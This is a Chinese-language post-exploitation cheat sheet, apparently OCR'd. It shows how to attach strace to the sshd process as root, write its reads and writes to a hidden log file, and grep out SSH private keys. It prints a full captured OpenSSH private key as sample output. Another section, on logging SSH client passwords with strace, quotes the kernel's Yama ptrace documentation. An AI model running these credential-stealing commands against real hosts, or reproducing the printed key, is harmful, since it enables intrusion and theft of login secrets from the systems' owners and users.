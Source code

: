 获取sshd进程私钥
```
1.root权限执行

# 使用括号执行程序，当前shell退出，执行的程序不会退出
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)
2.查找私钥直接搜索字符串PRIVATE KEY


# 查找用户名和密码 (如果私钥设置的了密码 似乎不能抓到私钥密码)
grep 'PRIVATE KEY' /tmp/.sshd.log

# 结果形式如下
[pid  1009] 23:17:34 read(4, "-----BEGIN OPENSSH PRIVATE KEY-----\n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\npuzYc7LCnLR8alqQAAAAlyb290QGthbGk=\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 2590
```

#### 后渗透 - linux下用strace记录从本机ssh客户端登录的密码

>ubuntu测试成功

利用前提:默认普通用户权限即可

参考 https://www.kernel.org/doc/Documentation/security/Yama.txt
```
The sysctl settings (writable only with CAP_SYS_PTRACE) are:

0 - classic ptrace permissions: a process can PTRACE_ATTACH to any other
    process running under the same uid, as long as it is dumpable (i.e.
    did not transition uids, start privileged, or have called
    prctl(PR_SET_DUMPABLE...) already). Similarly, PTRACE_TRACEME is
    unchanged.

1 - restricted ptrace: a process must have a predefined relationship
    with the inferior it wants to call PTRACE_ATTACH on. By default,
    this relationship is that of only its descendants when the above
    classic criteria is also met. To change the relationship, an
    inferior can call prctl(PR_SET_PTRACER, debugger, ...) to declare
    an allowed debugger PID to call PTRACE_ATTACH on the inferior.
    Using PTRACE_TRACEME is unchanged.
```